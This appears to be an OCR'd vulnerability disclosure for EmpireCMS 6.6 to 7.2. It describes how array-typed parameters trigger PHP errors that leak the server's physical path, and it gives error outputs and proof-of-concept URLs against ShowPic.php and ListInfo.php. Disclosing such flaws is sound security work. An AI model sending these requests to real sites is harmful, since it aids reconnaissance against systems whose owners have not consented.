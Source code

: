 >
> Return error :
> htmlspecialchars() expects parameter 1 to be string, array given in /www/e/admin/tool/ShowPic.php on line 4?5?6?7
>
> Code:
> EmpireCMS 6.6 :
> if($val!=addslashes($val))
>
> Rows:373
>
> Return error :
> addslashes() expects parameter 1 to be string, array given in /www/e/class/connect.php on line 373
>
>
>
> Code:
> EmpireCMS 7.0 :
> $val=htmlspecialchars($val,$flags,$char);
>
> Rows:457
>
> Return error :
> htmlspecialchars() expects parameter 1 to be string, array given in /www/e/class/connect.php on line 457
>
>
> Code:
> EmpireCMS 7.2 :
> $val=htmlspecialchars($val,$flags,$char);
>
> Rows:579
>
> Return error :
> htmlspecialchars() expects parameter 1 to be string, array given in /www/e/class/connect.php on line 579
>
>
>
> Harm:
> Web site physical path leakage .
>
> conditions for execution:
> Normal access can
>
> Edition:
> EmpireCMS 6.6
> EmpireCMS 7.0
> EmpireCMS 7.2
>
> Cause the cause :
>
> htmlspecialchars() expects parameter 1 to be string,Cause the path to leak.
> addslashes() expects parameter 1 to be string, Cause the path to leak.
>
> POC :
> EmpireCMS 6.6 :
> http://domain/e/admin/tool/ShowPic.php?url[]=kongxin&pic_height[]=kongxin&pic_width[]=kongxin&picurl[]=kongxin&
> http://domain/e/action/ListInfo.php?totalnum[]=kongxin&page[]=kongxin&myorder[]=kongxin&orderby[]=kongxin&andor[]=kongxin&ph[]=kongxin&tempid[]=kongxin&line[]=kongxin&endtime[]=kongxin&starttime[]=kongxin&ztid[]=kongxin&ttid[]=kongxin&classid[]=kongxin&mid[]=kongxin&
>